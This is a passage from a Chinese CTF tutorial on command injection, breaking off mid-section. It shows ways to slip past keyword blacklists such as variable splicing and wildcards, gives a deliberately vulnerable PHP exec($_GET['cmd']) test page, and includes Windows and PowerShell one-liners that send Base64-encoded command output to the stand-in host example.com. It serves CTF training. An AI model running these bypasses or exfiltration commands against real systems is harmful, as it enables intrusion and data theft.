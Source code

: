 ## 黑名单关键字

在CTF比赛中，有时会遇上黑名单关键字，如对cat、flag等字符串进行拦截，这时可以用下面的方式绕过。

### 1．利用变量拼接

`a=c;b=at;c=he;d=llo;$a$b ${c}${d}`
 其中，a变量为c，b变量为at，最终`$a$b`是cat。c变量为he，d变量为llo，最终`${c}${d}为hello`，所以在这里执行的命令是“cat hello”。

### 2．使用通配符

在通配符中，“`？`”代表任意一个字符串，“`*`”则代表任意个字符串。



```rust
cat /tm?/fl*      (Linux)
type fla*          (windows)
```

可以看到，上面通过cat、type命令，结合通配符，实现了对黑名单字符串的绕过。

### 3．借用已有字符串

若是禁用“<>？”等字符串，则可以借用其他文件中的字符串，利用substr()函数截取出某个具体字符。
 `echo expr substr $(awk NR==1 lemon.php) 1 1`

## 执行无回显

在CTF中，我们经常遇到命令执行的结果不在网页上显示的情况，这时可以通过以下几种方式获取执行结果。在开始前，推荐搭建一个VTest平台[https://github.com/opensec-cn/vtest](https://links.jianshu.com/go?to=https%3A%2F%2Fgithub.com%2Fopensec-cn%2Fvtest)，以便测试。搭建完成后，开始测试，测试代码如下：



```php
<?php
      exec($_GET['cmd']);
?>
```

### 1．HTTP通道

假设自己的域名为example.com，下面以获取当前用户权限为例。

在Windows下，目前只能通过相对复杂的命令进行外带（如果未来Windows支持Linux命令，将更加方便数据外带）：
 `for /F %x in ('echo hello') do start http://example.com/httplog/%x`
 但是其缺陷是调用浏览器后并不会关闭，并且遇上特殊字符、空格时会存在截断问题，所以可以借用powershell进行外带数据。在Powershell 2.0下，执行如下命令：
 `for /F %x in ('echo hello') do powershell $a = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes('%x'));$b=New=Object System.Net.WebClient;$b.DownloadString('http://example.com/httplog/'+$a);`
 这里是对echo hello的执行结果进行Base64编码，然后通过Web请求将结果发送出去。

在Linux下，由于存在管道等，因此极其方便数据的传输，通常利用curl、wget等程序进行外带数据。例如：


